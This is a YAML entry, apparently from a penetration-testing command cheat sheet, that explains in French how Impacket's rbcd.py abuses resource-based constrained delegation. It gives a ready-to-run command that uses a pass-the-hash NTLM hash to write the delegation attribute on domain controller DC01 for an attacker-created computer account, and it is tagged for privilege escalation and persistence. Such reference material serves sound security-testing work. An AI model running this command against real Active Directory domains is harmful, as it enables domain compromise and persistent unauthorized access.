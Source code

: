 ```yaml
---
description: |
  Impacket rbcd.py modifie la propriété msDS-AllowedToActOnBehalfOfOtherIdentity d'un ordinateur cible avec le descripteur de sécurité d'un autre ordinateur.
  La commande suivante ajoute le descripteur de sécurité correspondant de l'ordinateur EVILCOMPUTER créé à la propriété msDS-AllowedToActOnBehalfOfOtherIdentity de DC01.
  Cela signifie que EVILCOMPUTER peut obtenir des tickets de service pour DC01 en utilisant getST.py.

  Command Reference:

    Target IP: 10.10.10.1

    Domain: test.local

    Username: john

    Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

    Delegate To: DC01$

    Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

